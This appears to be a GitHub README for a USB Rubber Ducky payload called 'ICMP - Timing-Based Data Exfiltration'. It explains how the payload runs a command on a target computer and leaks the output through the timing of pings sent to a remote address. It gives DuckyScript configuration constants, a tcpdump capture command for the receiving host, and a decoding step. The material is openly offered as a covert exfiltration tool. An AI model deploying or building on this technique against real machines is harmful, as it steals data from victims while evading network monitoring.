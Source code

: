 # ICMP - Timing-Based Data Exfiltration

- Author:        TW-D
- Version:       1.0
- Category:      Exfiltration (covert channel)

## Description

The *payload.sh* script runs a local system command and encodes its output character by character. Each character is converted to an ASCII value which defines a time offset used when sending a ping. No command output is placed inside the packets themselves — only the timing sequence of the pings carries the information.

The *decode.sh* script reads a file of timestamps (the moments when pings were received) and, by computing successive offsets between those timestamps, reconstructs the original output.

<div align="center">
	<img src="./readme_assets/schema.png" alt="ICMP - Timing-Based Data Exfiltration" title="ICMP - Timing-Based Data Exfiltration" />
</div>

> [!NOTE]
> Data exfiltration using this method takes a long time.

## Configuration

In the "payload.txt" file, replace the values of the following constants :

```

REM ---
REM USB Rubber Ducky label.
REM ---
DEFINE #RD_LABEL DUCKY

REM ---
REM Command line to be executed by the target computer.
REM ---
DEFINE #SYSTEM_COMMAND "whoami"

REM ---
REM Remote address where ICMP packets will be sent.
REM ---
DEFINE #REMOTE_ADDRESS "127.0.0.1"

```

Place the *payload.sh* file at the root of the USB Rubber Ducky.

## Usage

On the host receiving ICMP packets, start a packet capture and save the timestamps:

```bash
hacker@hacker-computer:~$ sudo tcpdump --interface="<INTERFACE>" -l -n -q --snapshot-length=0 -tt "icmp[icmptype] == 8" | awk -W interactive '{print $1}' &> >(tee ./timestamps.log)
```

When no other packet has arrived in the last 5 minutes (255 / 60 in extended ASCII), stop the capture (Ctrl+C) and decode the timestamps:

```bash
[CTRL+c]
hacker@hacker-computer:~$ "${BASH}" ./decode.sh ./timestamps.log
```
